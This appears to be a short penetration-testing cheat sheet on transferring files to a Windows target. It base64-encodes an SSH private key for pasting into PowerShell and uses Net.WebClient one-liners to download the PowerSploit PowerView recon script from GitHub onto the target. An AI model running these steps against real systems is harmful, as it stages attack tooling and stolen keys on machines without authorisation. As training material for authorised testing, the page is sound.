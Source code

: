 ```yaml
---
layout: default
---
```


# Attack to Target
## PowerShell Base64 Encode & Decode
**Attack Check SSH Key MD5 Hash**
```bash
$ md5sum id_rsa
```

**Attack Encode SSH Key to Base64**
```bash
$ cat id_rsa |base64 -w 0;echo
```

**Target Paste Base64**
```bash
PS > [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String(""))
```

**Confirming the MD5 Hashes Match**
```bash
PS > Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```

## PowerShell Web Downloads
| Method                | Description                                                        |
|-----------------------|--------------------------------------------------------------------|
| OpenRead              | Returns the data from a resource as a Stream.                      |
| OpenReadAsync         | Returns the data from a resource without blocking the calling thread. |
| DownloadData          | Downloads data from a resource and returns a Byte array.           |
| DownloadDataAsync     | Downloads data from a resource and returns a Byte array without blocking the calling thread. |
| DownloadFile          | Downloads data from a resource to a local file.                    |
| DownloadFileAsync     | Downloads data from a resource to a local file without blocking the calling thread. |
| DownloadString        | Downloads a String from a resource and returns a String.           |
| DownloadStringAsync   | Downloads a String from a resource without blocking the calling thread. |

**File Download**
We can specify the class name Net.WebClient and the method DownloadFile with the parameters corresponding to the URL of the target file to download and the output file name.

```bash
PS > (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')


PS > (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

